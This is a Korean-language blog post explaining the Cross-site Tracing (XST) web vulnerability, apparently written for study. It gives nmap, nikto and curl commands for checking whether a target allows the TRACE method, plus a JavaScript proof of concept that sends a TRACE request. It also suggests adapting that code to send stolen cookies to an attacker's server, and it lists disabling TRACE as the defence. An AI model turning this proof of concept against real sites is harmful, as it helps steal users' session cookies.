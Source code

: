 ```yaml
---
layout: single
title: (Web-Vuln) Cross-site Tracing (XST)
categories: Web-vuln
tag: XST, XSS, web, web vulnerability, Cross-site Tracing]
toc: true
author_profile: false
---
```

# 해당 취약점은 무엇인가?
> XSS 공격의 종류중 하나로서, XSS 공격을 방어하거 위해 만들어진 쿠키 속성 중 하나인 HTTPOnly 속성을 우회할 수 있는 기법이다.

## HTTPOnly??
- HTTPOnly는 XSS 공격을 방지하기 위해 쿠키 값이 JavaScript를 통해 접근 할 수 없도록 한다.

# 어떻게 발생하는가?
- 요청 메서드중 하나인 TRACE 메서드가 허용되어 있을 경우 발생할 수 있다.

## TRACE를 통한 XST
 - TRACE 메서드의 경우 클라이언트가 서버에게 요청을 재전송하라는 의미로 사용되며, 주로 디버깅 용도로 사용되었다. 이는 클라이언트가 보낸 요청 메시지를 서버측에서 그대로 클라이언트 측으로 되돌려주게 되는데 이 때 요청값에 쿠키 세션값들이 존재하여, 세션탈취의 취험이 존재한다.

 ## 공격 앤드포인트 탐색
 XST 취약점 또한 XSS 의 한 종류로서 Stored Based XSS와 유사한 성격을 띄고 있다. XSS 공격에 취약한 앤드포인트가 존재할 때 악성 스크립트가 담긴 서버로의 AJAX 요청을 포함하여 서버 데이터베이스 내에 저장 한다. 이 때 희생자가 해당 악성스크립트(게시글로 가정)을 확인 할 경우 서버로의 TRACE를 통한 AJAX요청을 보내고 다시금 서버로 부터 응답을 받을 때 공격자가 의도한 스크립트가 실행되게 된다.

### 공격 대상 TRACE 사용 유/무 체크
대상 시스템에 TRACE 메서드가 실행중인지 확인할 필요가 있다.
아래 3가지 방법을 통해 확인할 수 있다.

```
1. nmap <대상 ip> --script http-methods --script-args http-method.test-all='/<대상ip>'

2. nikto -h <대상 ip>

3. curl -c -X -OPTIONS <대상 IP>
```

## 공격 POC Code

```javascirpt
<script type="text/javascript">
<!--
    function sendTrace () {
	var xmlHttp = new ActiveXObject("Microsoft.XMLHTTP");
	xmlHttp.open("TRACE", "http://foo.bar",false);
	xmlHttp.send();
	xmlDoc=xmlHttp.responseText;
	alert(xmlDoc);
    }
//-->
</script>
<INPUT TYPE=BUTTON OnClick="sendTrace();" VALUE="Send Trace Request">
```

위 코드는 주로 사용되는 XMLHTTP를 이용한 AJAX요청을 보내는 POC 코드이다.
<br>
POC코드에서는 alert()함수를 통해 개념증명을 보이지만, 이 부분을 document.location와 같이 공격자 서버로의 세션 전송 구문을 넣게되면 응답받은 값의 쿠키값을 공격자의 서버로 전송하게 될 것이다.

<div style="background-color:#ffffcc; padding:10px; border: 2px solid #ff6600; border-radius: 10px; text-align: center; color: black;">
TRACE메서드는 알반적으로 대부분의 웹 서버에서 기본적으로 비활성화 되어있으며, 현재 사용되는 대부분의 웹 브라우조는 XHR(XMLHttpRequedst)에서 TRACE를 실행하지 못하도록 설정되어 있다. 이로 인해 AJAX를 이용한 XST공격은 사실상 대부분의 웹 브라우저에서는 불가능하만 일부 취약환경에서는 사용이 가능하다.
</div>
<br>

# 대응방안
1. TRACE 메서드를 사용하지 않아야 한다.

# Reference
- https://webhack.dynu.net/?idx=20161111.001&print=friendly